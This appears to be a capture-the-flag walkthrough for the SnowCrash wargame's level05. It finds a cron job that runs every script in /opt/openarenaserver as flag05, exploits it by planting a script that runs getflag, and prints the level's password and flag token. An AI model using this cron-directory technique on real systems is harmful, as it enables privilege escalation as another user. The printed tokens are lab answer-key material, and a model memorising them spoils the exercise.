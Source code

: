 
as usual: su level05
password: ne2searoevaevoem4ov4ar8ap

Reconnaissance, Enumeration

```
level05@SnowCrash:~$ find / -user flag05 2>/dev/null | xargs file
/usr/sbin/openarenaserver:      POSIX shell script, ASCII text executable
/rofs/usr/sbin/openarenaserver: regular file, no read permission
```

or 
```
level05@SnowCrash:~$ find / -user flag05 -readable 2>/dev/null
/usr/sbin/openarenaserver
```

```
level05@SnowCrash:~$ find / -type f 2>/dev/null | xargs grep '/usr/sbin/openarenaserver' 2>/dev/null
Binary file /proc/28098/task/28098/cmdline matches
Binary file /proc/28098/cmdline matches
/var/mail/level05:*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
/rofs/var/mail/level05:*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

**second method:**


ssh level05@10.12.100.98 -p 4242
level05's password: ne2searoevaevoem4ov4ar8ap
You have new mail.

quick google search: "linux mail path" gives the path of mails dir 

cat /var/spool/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05

its a crontab apparantley
that runs At every 2nd minute, [check](https://crontab.guru/#*/2_*_*_*_*)

heading back to the path
```
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

ulimit is a built-in Linux shell command that allows viewing or limiting system resource amounts that individual users consume. Limiting resource usage is valuable in environments with multiple users and system performance issues.

-t flag: Specifies a process's maximum running time, in seconds.

bash -x: The -x option starts a BASH shell in tracing mode.
	run the entire script in debug mode. Traces of each command

googling: `for every file in directory bash` will output similar results

**so the script loops over a directory, executes it then removes it.**

we can exploit that

 
 vim /opt/openarenaserver/exec_this
  getflag > /tmp/flag
 
 watch cat /tmp/flag


token : viuaaale9huek52boumoomioc